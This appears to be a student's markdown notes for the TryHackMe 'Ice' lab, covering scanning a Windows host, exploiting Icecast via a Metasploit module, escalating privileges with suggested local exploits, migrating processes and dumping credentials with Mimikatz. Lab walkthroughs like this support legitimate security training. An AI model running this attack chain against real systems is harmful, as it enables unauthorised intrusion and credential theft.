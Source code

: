 - hacking Windows server
- https://tryhackme.com/room/ice

- nmap scan `nmap -sS -sV -p- <IP>`
	- 135: msrpc
	- 139: netbios-ssn
	- 445: microsoft-ds (WORKGROUP)
	- 3389: tcpwrapped
	- 5357: http
		- HTTPAPI 2.0 (SSDP/UPnP)
	- 8000: http
		- Icecast streaming media server
	- 49152, 49153, 49154, 49158, 49159, 49160: msrpc
	- Service info:
		- Host: DARK-PC; cpe:/o\:microsoft:windows 

- gaining access throught Icecast and escalating privileges
	- research on vulnerabilities
		- https://www.cvedetails.com/cve/CVE-2004-1561/ -> has Metasploit exploit
	- Metasploit
		- -> run `exploit/windows/http/icecast_header`
	- Meterpreter
		- sessionId: session 1
		- who is running Icecast? (current user) => `getuid` -> Dark
		- `sysinfo` -> get info about build,...
		- `run post/multi/recon/local\_exploit\_suggester`
			- can run several minutes
			- will give us potential exploits
				- exploit/windows/local/bypassuac_eventvwr
				- exploit/windows/local/ikeext_service
				- exploit/windows/local/ms10_092_schelevator
				- exploit/windows/local/ms13_053_schlamperei
				- exploit/windows/local/ms13_081_track_popup_menu
				- exploit/windows/local/ms14_058_track_popup_menu
				- exploit/windows/local/ms15_051_client_copy_image
				- exploit/windows/local/ntusermndragover
				- exploit/windows/local/ppr_flatten_rec:
		- background Meterpeter and start running exploits
		- if the exploit is succesfull you get another session
			- get to that session `sessions <sessionId>`
			- check permissions `getprivs`

- start looting
	- show running processes `ps`
	- find one that is running on the same architecture as lsass service
		- -> spoolsv.exe ~ printer
	- switch to another process `migrate -N <process_name>`
		- -> now we have full admin permission
	- run Mimikatz `load kiwi`
		- retrieve all creds `creds_all`

- post-exploitation
	- what can you do with mimikatz